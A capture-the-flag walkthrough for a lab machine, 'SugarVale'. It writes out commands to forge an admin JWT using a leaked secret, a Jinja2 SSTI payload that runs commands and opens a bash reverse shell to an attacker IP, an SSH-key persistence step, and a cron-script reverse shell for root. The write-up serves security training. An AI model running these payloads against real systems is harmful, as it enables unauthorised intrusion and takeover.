Offsec - SugarVale - Walktrough
Summary
Scanning the target with nmap reveals two open ports: 22 (SSH) and 80 (HTTP). Enumerating the web server uncovers a backup folder containing everything needed to forge our own JSON Web Token and escalate to admin. As admin, we discover an input field vulnerable to server-side template injection (SSTI), which we leverage to open a reverse shell. After landing on the box, we stabilize the shell over SSH and identify a vulnerable cronjob that ultimately spawns a root shell on port 5555.
Enumeration
Lets start enumerating the target with nmap:
└─$ sudo nmap -p- -A -T4 TARGET_IP┌──(londra㉿kali)-[~]
└─$ sudo nmap -p- -A -T4 192.168.187.220
[sudo] password for londra:
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-19 01:02 +0200
Nmap scan report for 192.168.187.220
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 96:e1:5a:30:60:4d:e2:e4:e6:07:33:20:bb:51:4d:a3 (ECDSA)
|_ 256 34:ec:9d:71:d3:65:c5:dd:df:8b:d0:5c:19:85:d6:e8 (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: SugarVale Sweets
| http-robots.txt: 2 disallowed entries
|_/admin /backups/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=8/19%OT=22%CT=1%CU=34897%PV=Y%DS=4%DC=T%G=Y%TM=6A84E49
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=102%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%
OS:CI=Z%II=I%TS=A)SEQ(SP=FB%GCD=1%ISR=FD%TI=Z%CI=Z%TS=A)SEQ(SP=FE%GCD=1%ISR
OS:=10C%TI=Z%CI=Z%TS=A)OPS(O1=M540ST11NW7%O2=M540ST11NW7%O3=M540NNT11NW7%O4
OS:=M540ST11NW7%O5=M540ST11NW7%O6=M540ST11)WIN(W1=FEF4%W2=FEF4%W3=FEF4%W4=F
OS:EF4%W5=FEF4%W6=FEF4)ECN(R=Y%DF=Y%T=40%W=FC00%O=M540NNSNW7%CC=Y%Q=)T1(R=Y
OS:%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%
OS:A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 1723/tcp)
HOP RTT ADDRESS
1 20.82 ms 192.168.45.1
2 20.80 ms 192.168.45.254
3 28.90 ms 192.168.251.1
4 31.15 ms 192.168.187.220
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.23 secondsNmap shows two open ports: 22 (SSH) & 80 (HTTP). Interestingly, nmap shows us that the Admin & Backup folders are both excluded from indexation. Lets try to access them.
Reconnaissance
The admin page appears to be a dedicated login portal reserved for administrators.

The backups page, however, has two interesting files:

Opening both env and config.json reveals all the necessary information to forge a JWT
(JSON Web Token).

If we create an account, our JWT is stored in a cookie called sv_token. Copying the cookie and inspecting its value shows three base64url-encoded chunks joined by dots:
Chunk 1: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
Content: {"alg":"HS256","typ":"JWT"}
Chunk 2: eyJzdWIiOiJsb25kcmEiLCJyb2xlIjoidXNlciIsImlhdCI6MTc4NzA5OTUxOX0
Content: {"sub":"londra","role":"user","iat":1787099519}
Chunk 3 consists of 32 raw bytes of HMAC-SHA256 output as expected for SHA-256, which is not important now.
We are actually able to forge our own admin JWT with the information we possess at the moment. We can do so by executing the following commands in order:
└─$ header=$(echo -n '{"alg":"HS256","typ":"JWT"}' | base64 | tr '+/' '-_' | tr -d '=')└─$ payload=$(echo -n '{"sub":"admin","role":"admin","iat":YOUR_IAT}' | base64 | tr '+/' '-_' | tr -d '=')└─$ sig=$(echo -n "${header}.${payload}" | openssl dgst -sha256 -hmac 'sweetsauce' -binary | base64 | tr '+/' '-_' | tr -d '=')And the last command to actually concatenate all base64 values:
└─$ echo "${header}.${payload}.${sig}"Now, if we copy that forged token and swap it in for the current value of the sv_token cookie (assuming we're logged in), we become admin. Refreshing the page, /admin is now accessible.

Exploitation
The admin page exposes an input field.
There is a high probability that the data we're submitting there is actually being handled by a server.
Note how I use "a" instead of "the", since I am not yet sure what back-end is running at the moment. Therefore I tried some SSTI techniques. First for PHP, then Java, and ultimately... Python:

As you can see, the command "ls" is executed when the following payload is submitted:
name={{config.__class__.__init__.__globals__['os'].popen('ls').read()}},/code>
Now lets start a netcat listener on port 4444 and submit the following SSTI payload:
name={{config.__class__.__init__.__globals__['os'].popen("bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'").read()}},/code>
We receive a reverse shell upon submission and are able to extract the first flag:

Post-Exploitation
Next, lets stabalize our shell by opening an ssh connection. On our attacking machine we execute the following:
└─$ ssh-keygen -t ed25519 -f ./svc_key -N ""Extract the public key:
└─$ cat svc_key.pubNow on the target:
└─$ cd ~ && mkdir .ssh && echo "PUBLIC_KEY_CONTENT" > .ssh/authorized_keys Now on our attacker machine, we can execute the following command to open the SSH connection:
└─$ ssh -i svc_key appsvc@TARGET_IPPrivilege Escalation
The next goal is to become root. Checking all cronjobs reveals interesting information:
└─$ ls -lah /etc/cron*It reveals a cronjob owned by root:

The "file" command reveals that we're dealing with a shell script:
└─$ file /etc/cron.d/ledger-backup
It seems to be executing /usr/local/sbin/ledger-backup

/usr/local/sbin/ledger-backup points to yet another file which executes the content of another file:

Now, /opt/ledger/backup/logrotate.sh is writable by our user and executed as root.

We can thus add the following line to the file:
└─$ bash -c 'bash -i >& /dev/tcp/YOUR_IP/5555 0>&1'
Start a netcat listener on port 5555 and save the file. This will open up a root shell and thus allows us to read the root flag:

I hope you learned something new today! Have a nice rest of your day.